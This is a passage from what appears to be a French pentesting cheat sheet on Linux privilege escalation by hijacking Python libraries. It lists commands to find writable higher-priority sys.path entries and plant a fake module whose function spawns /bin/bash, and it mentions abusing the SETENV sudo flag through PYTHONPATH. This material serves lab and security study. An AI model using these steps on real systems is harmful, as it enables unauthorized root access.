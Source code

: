 6. Executer le script python

```
python3 <script.py>
```


## Library Path

> [!Requis]
>  - Pouvoir ecrire dans un pythonpath
>  - Le module doit se trouver dans un python path dont la priorité est moindre que le pythonpath modifiable


1. Identifier les modules importés par le script

```
cat <script.py> | grep import
```

2. Lister les pythonpath

```shell
python3 -c 'import sys; print("\n".join(sys.path))'
```

3. Identifier le pythonpath du module à hijacker (y a t il des pythonpath au dessus ?)

```bash
pip3 show <lib>
```

4. Identifier les droits sur les pythonpath au dessus

```
ls -la /pythonpath
```

5. Créer module dans pythonpath modifiable avec la bonne fonction

module.py
```python
#!/usr/bin/env python3

import os

def <fonction>():
    os.system('/bin/bash')
```

## PYTHONPATH Environment Variable

> [!TIP]
> Possible de definir un autre python path et usurper les libs


1. Identifier SETENV: flag dans sudo

```shell-session
sudo -l 
```
